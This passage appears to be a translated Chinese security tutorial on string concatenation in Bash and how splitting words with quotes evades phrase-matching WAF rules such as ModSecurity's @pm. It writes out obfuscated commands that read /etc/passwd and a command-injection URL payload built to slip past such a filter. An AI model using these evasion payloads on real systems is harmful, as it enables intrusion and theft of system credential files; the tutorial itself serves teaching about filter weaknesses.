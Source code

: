 ## 连接符

在许多编程语言中，字符串连接是一个二进制中缀运算符。<br>
+（加）操作经常重载表示为字符串参数级联：”Hello, “ + “World”具有值”Hello, World”<br>
在其他语言中，也有一些单独的运算符，例如：<br>
Perl和PHP的`.`<br>
Lua的`..`等等<br>
例如：

```
$ php -r 'echo "hello"." world"."n";'
hello world
$ python -c 'print "hello" + " world"'
hello world
```

但如果你以为这就是连接字符串的唯一途径，那你就错了~<br>
在几种语言中，特别是C，C ++，Python以及可以在Bash中找到的脚本语言/语法，都有一些名为string literal concatenation的含义，意思是相邻的字符串连接在一起，没有任何操作符：`"Hello, " "World"`具有值`"Hello, World"`。这不仅适用于printf和echo命令，而且适用于整个bash语法。让我们从头开始。<br>
以下每个命令都具有相同的结果：

```
# echo test
# echo 't'e's't
# echo 'te'st
# echo 'te'st''
# echo 'te'''st''
# python -c 'print "te" "st"'
```

[![](https://p0.ssl.qhimg.com/t01d0355875df350df8.png)](https://p0.ssl.qhimg.com/t01d0355875df350df8.png)<br>
发生这种情况是因为所有相邻的字符串在Bash中连接在一起。<br>
实际上`'te's't'`由三个字符串组成：字符串te，字符串s和字符串t。<br>
该语法可用于绕过基于“匹配短语” 的过滤器（或WAF规则）（例如，ModSecurity中的pm操作符）。<br>
ModSecurity中的规则`SecRule ARGS "[@pm](https://github.com/pm) passwd shadow groups".....`将阻止包含passwd或shadow的所有请求。但是如果我们将它们转换为`pa'ss'wd或sh'ad'ow`<br>
就像我们之前看到的SQLi语法一样，它使用注释来分割查询，在这里我们也可以使用单引号`'`分割文件名和系统命令并创建一组串联的字符串。<br>
同一个命令的几个例子：

```
$ /bin/cat /etc/passwd
$ /bin/cat /e'tc'/pa'ss'wd
$ /bin/c'at' /e'tc'/pa'ss'wd
$ /b'i'n/c'a't /e't'c/p'a's's'w'd'
```

[![](https://p4.ssl.qhimg.com/t01a825cb1db10a3b47.png)](https://p4.ssl.qhimg.com/t01a825cb1db10a3b47.png)<br>[![](https://p0.ssl.qhimg.com/t0159fc8f0b62d3679e.png)](https://p0.ssl.qhimg.com/t0159fc8f0b62d3679e.png)<br>
现在，让我们假设您已经发现了一个对应用程序执行远程命令的url参数。如果有一条规则阻止诸如`etc，passwd，shadow`等等这样的短语，你可以用类似这样的方法绕过它：

```
curl .../?url=;+cat+/e't'c/pa'ss'wd
```
